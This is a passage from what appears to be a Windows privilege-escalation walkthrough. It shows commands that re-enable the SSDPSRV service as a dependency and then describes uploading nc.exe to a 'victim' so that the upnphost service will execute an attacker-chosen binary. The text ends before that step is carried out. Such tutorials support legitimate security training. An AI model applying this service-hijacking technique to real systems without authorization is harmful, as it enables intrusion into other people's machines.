 # Attempt to start the service								
								
C:\> net start SSDPSRV
System error 1058 has occurred.

The service cannot be started, either because it is disabled or because it has no enabled devices associated with it.								
							

In order to fix this, we will need to set the SSDPSRV from DISABLED to AUTOMATIC. Once the service is set to AUTOMATIC we will be able to start it. We can do this with the following commands.


# Set SSDPSRV to AUTOMATIC
# NOTE: There is a space between = and auto. This is important, else the command will fail.								
								
C:\> sc config SSDPSRV start= auto
[SC] ChangeServiceConfig SUCCESS
								
# Double check if it's set to AUTOMATIC (or AUTO_START)
								
C:\> sc qc SSDPSRV
[SC] GetServiceConfig SUCCESS

SERVICE_NAME: SSDPSRV
        TYPE               : 20  WIN32_SHARE_PROCESS 
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\WINDOWS\System32\svchost.exe -k LocalService  
        LOAD_ORDER_GROUP   :   
        TAG                : 0  
        DISPLAY_NAME       : SSDP Discovery Service   
        DEPENDENCIES       :   
        SERVICE_START_NAME : NT AUTHORITY\LocalService							
							

SSDPSRV is successfully set to AUTOMATIC (AUTO_START)! Now let's try to start SSDPSRV again.


C:\> net start SSDPSRV
The SSDP Discovery Service service is starting.
The SSDP Discovery Service service was started successfully.							
							

Awesome! We now have our dependency running to start the upnphost service. If we run upnphost now though, it won't do much good for us. We first need to edit its parameters so the service will execute a binary of our choice. There are multiple ways to approach this. One option is to generate our own binary with msfvenom, but that's out of scope for this article. What we will do is upload the netcat binary (nc.exe) to our victim. Again, don't forget to put your FTP session in binary, or you won't be able to execute the executable via CLI.
